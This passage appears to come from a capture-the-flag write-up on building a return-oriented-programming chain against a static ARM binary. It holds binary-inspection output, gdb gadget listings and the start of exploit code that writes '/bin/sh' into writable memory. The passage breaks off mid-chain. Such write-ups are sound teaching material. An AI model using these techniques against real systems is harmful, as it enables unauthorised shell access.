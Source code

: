 We cracked our minds to figure out how to insert the string into the program, then store its address in `r0`.  Since the binary is not PIC, we assumed that ASLR was not enabled. If that assumption was true, it meant that it was possible to hardcode an address to move the string "/bin/sh" to from the stack, then insert said address to `r0`.
```
[0x000102ec]> iI
arch     arm
canary   false
[...]
pic      false
[...]
static   true
stripped true
[...]
```

As for the hardcoded address, we chose `0x00079088` because it was writable memory (see the `'W'` flag).
```
$ readelf -S static
There are 31 section headers, starting at offset 0x5a09c:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
[...]
  [25] .data             PROGBITS        00079088 059088 000e50 00  WA  0   0  8
  [26] .bss              NOBITS          00079ed8 059ed8 000b90 00  WA  0   0  8
[...]
```

We went to [ROPshell](http://ropshell.com/ropsearch?h=61066c581d08d781b074d8cd0b9a7916&p=str) to find suitable gadgets to form a ROP chain with. We had to manually look through all possible gadgets and how they could interact with each other to form the exploit. The gadgets below were what we found. We used gdb to print the instructions at the offset ROPshell gave us just to make sure that they were correct. We wanted to be sure because ROPshell's offset are not DWORD aligned, so We were afraid that it might not be correct. We were glad to see that our worry was unfounded.
```
gdb-peda$ x/i 0x23771
   0x23771:	pop	{r0, r3, r4, pc}
gdb-peda$ x/2i 0x0004392d
   0x4392d:	str	r3, [r0, #0]
   0x4392f:	pop	{r3, pc}
gdb-peda$ x/2i 0x207ab
   0x207ab:	add	r0, r4
   0x207ad:	pop	{r4, pc}
gdb-peda$ x/i 0x50f0f
   0x50f0f:	pop	{r0, r1, r2, r3, r4, r5, r6, r7, pc}
gdb-peda$ x/2i 0x10a45
   0x10a45:	svc	0
   0x10a47:	pop	{r7, pc}
gdb-peda$
```

First, we formed the ROP chain to put the string into address `0x00079088`. That involved putting the substring `"/bin"` into the DWORD at address `0x00079088`, then the substring `"/sh\x00"` into the DWORD at address `0x0007908c`.
```
shellcode = ""
shellcode += PADDING
shellcode += p32(0x23771)
shellcode += p32(ADDR_OF_BINSH)
shellcode += '/bin'
shellcode += p32(0x4)
shellcode += p32(0x0004392d)

shellcode += '/sh\x00'
```